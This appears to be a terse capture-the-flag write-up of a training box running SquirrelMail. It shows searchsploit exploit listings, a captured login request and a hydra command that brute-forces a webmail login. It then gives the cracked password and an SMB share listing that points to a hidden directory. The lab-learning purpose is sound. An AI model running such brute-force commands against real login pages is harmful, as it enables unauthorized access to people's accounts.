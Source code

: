 ```attention.txt ```appears to be a note regarding all users having to reset passwords.
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SquirrelMail 1.4.2 Address Add Plugin - 'add.php' Cross-Site Scripting                                                                | php/webapps/26305.txt
Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion                                                                              | php/webapps/27948.txt
SquirrelMail 1.4.x - Folder Name Cross-Site Scripting                                                                                 | php/webapps/24068.txt
SquirrelMail < 1.4.22 - Remote Code Execution                                                                                         | linux/remote/41910.sh
SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Overwrite                                                                               | php/webapps/43830.txt
SquirrelMail < 1.4.7 - Arbitrary Variable Overwrite                                                                                   | php/webapps/43839.txt
```

```
curl 'http://10.10.103.180/squirrelmail/src/redirect.php' -H 'User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:86.0) Gecko/20100101 Firefox/86.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://10.10.103.180' -H 'Connection: keep-alive' -H 'Referer: http://10.10.103.180/squirrelmail/src/login.php' -H 'Cookie: squirrelmail_language=en_US; SQMSESSID=06fcbvnbmnr9traq17410783v5' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'login_username=&secretkey=&js_autodetect_results=1&just_logged_in=1'
```

```
hydra -l milesdyson -P log1.txt 10.10.1.235 http-post-form "/squirrelmail/src/redirect.php:login\_username=^USER^&secretkey=^PASS^&js\_autodetect\_results=1&just\_logged\_in=1:Unknown user or password incorrect." -v
```
using hydra we get cyborg007haloterminator as password and get into ```milesdyson``` email inbox.
``` 
)s{A&2Z=F^n_E.B`
```





```bash
smb: \> ls
  .                                   D        0  Tue Sep 17 09:05:47 2019
  ..                                  D        0  Wed Sep 18 03:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 09:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 09:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 09:05:14 2019
  notes                               D        0  Tue Sep 17 09:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 09:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 09:05:14 2019

```
```bash
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```
Maybe the ```/45kra24zxs28v3yd``` is a subdir?
